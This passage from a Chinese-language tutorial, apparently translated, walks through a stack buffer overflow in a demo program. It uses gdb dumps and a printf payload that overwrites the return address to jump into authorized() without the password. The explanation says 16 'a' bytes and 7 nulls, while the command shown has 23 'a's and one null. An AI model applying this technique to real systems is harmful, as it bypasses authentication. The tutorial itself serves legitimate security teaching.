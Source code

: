 ```
0x7fffffffe6f0: 0x0000000000000000  0x00007ffff7818a15
0x7fffffffe700: 0x0000000000000000  0x00007fffffffe7d8

```

我输入了密码“aabbccdd”，这样我们看起来方便点。从`gets()`返回之后，因为我们使用了`sub rsp,0x10`，所以，栈上还有其他 16 个字节在之前这些数据的“下面”。因为这些被当作是缓冲区来用的，所以我们可以看到字节被存储为反的顺序（注：这句作者说的有点玄乎，我按原文翻译下来了，其实就是 Little-Endian 啦，看不懂作者说啥的看这里看这里：[`zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F#.E5.B0.8F.E7.AB.AF.E5.BA.8F`](http://zh.wikipedia.org/wiki/%E5%AD%97%E8%8A%82%E5%BA%8F#.E5.B0.8F.E7.AB.AF.E5.BA.8F)）。 0x61 是小写字母 a 的 ASCII 码，0x62 是 b，以此类推。如果我们输入 16 个字节 a 的话，我们可以看到我们的数据“填充上”了栈区：

```
(gdb) b *0x00000000004006c4
Breakpoint 4 at 0x4006c4: file overflow.c, line 14.

(gdb) c
Continuing.
aaaaaaaaaaaaaaaa

Breakpoint 4, getInput () at overflow.c:14
14    if(strcmp(pass, crypt(buffer, "$1$k3Eadsf$")) == 0) {

(gdb) x/8gx $rsp
0x7fffffffe6d0: 0x6161616161616161  0x6161616161616161
0x7fffffffe6e0: 0x00007fffffffe6f0  0x0000000000400700
0x7fffffffe6f0: 0x0000000000000000  0x00007ffff7818a15
0x7fffffffe700: 0x0000000000000000  0x00007fffffffe7d8

```

因此，如果我们提供一个足够长的输入数据，我们就可以用 authorize 的地址来覆盖这个函数该返回的返回地址。反编译一下`authorized()`函数来获取一下我们所需要的地址：

```
(gdb) disas authorized
Dump of assembler code for function authorized:
0x00000000004006a0 <+0>:   push   rbp
0x00000000004006a1 <+1>:  mov    rbp,rsp
0x00000000004006a4 <+4>:  mov    edi,0x4007e2
0x00000000004006a9 <+9>:  call   0x400550 <puts@plt>
0x00000000004006ae <+14>: pop    rbp
0x00000000004006af <+15>: ret
End of assembler dump.

```

现在我们所有要做的就是把 getInput 的返回地址覆盖为`0x00000000004006a0`，而且我们可以做到。我们可以在 shell 里用 printf 把数据传给程序，你可以用\x 来转意 16 进制数据，因为地址是倒着来的（注：小端），所以我们也倒着给它就好了。还有，我们需要用 0x00 来终止我们的缓存，这样 strcmp 就不会在我们函数返回之前引起一个段错误。printf 的结果如下：

```
printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" | ./overflow

```

这有 16 个 a，还有 7 个空字符（`\x00`）来覆盖 rbp，最后，我们用我们的目标地址覆盖了正常时的返回地址。如果我们运行它的话，程序将会触发漏洞，直接跑到 authorized()里。尽管我们还没输啥对的密码。

